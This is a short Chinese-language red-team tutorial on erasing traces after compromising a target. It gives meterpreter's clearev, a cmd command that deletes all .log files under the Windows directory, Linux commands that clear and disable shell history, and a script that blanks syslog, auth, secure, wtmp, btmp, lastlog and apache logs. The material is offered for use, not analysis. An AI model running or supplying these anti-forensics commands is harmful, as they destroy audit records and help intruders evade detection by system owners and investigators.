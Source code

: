 仅系统日志清理，如果目标服务存在日志服务器的话，所有日志还会被保留。这里仅清理系统相关日志，如果访问了某些服务，比如说通过 apache 服务获得一个 shell，你还需要清理 apache 服务的访问日志。

# 1 Windows

> Windows 下运行 eventvwr 查看日志

msf 清理

```
meterpreter > clearev
```

cmd 清理

```
meterpreter > shell
C:\Windows\system32>del %WINDIR%\*.log /a/s/q/f
```

# 2 Linux

>Linux 可能根据发行版本不同，日志文件名称也有所不同。所以具体清除需要大家先看一下目标操作系统

清理历史命令（仅能清理当下进程）

```
[root@CentOS-76 ~]# history -c
```

使系统不再保存历史命令

```
[root@CentOS-76 ~]# vim /etc/profile
```

> 将 `HISTSIZE=1000` 改为 `HISTSIZE=0`，

```
HISTSIZE=1000
```

```
HISTSIZE=0
```

删除访问日志

1. 访问失败的日志

```
[root@CentOS-76 ~]# echo > /var/log/btmp
```

2. 访问成功的日志

```
[root@CentOS-76 ~]# echo > /var/log/wtmp
```

> 删除后执行 `last` 命令就会发现没有记录

执行脚本

```
[root@CentOS-76 ~]# source clear_logs_linux.sh
```

```
#Linux 日志&命令清理
#!/usr/bin/bash
echo > /var/log/syslog
echo > /var/log/messages
echo > /var/log/httpd/access_log
echo > /var/log/httpd/error_log
echo > /var/log/xferlog
echo > /var/log/secure
echo > /var/log/auth.log
echo > /var/log/user.log
echo > /var/log/wtmp
echo > /var/log/lastlog
echo > /var/log/btmp
echo > /var/run/utmp
history -c
```

> source 在当前进程下执行
>
> 执行时注意文件是否有执行权限。而且只有 root 才可以删除日志。

---

参考链接

- [日志清理](https://wiki.iredteam.cn/the-report-stage/log-cleaning)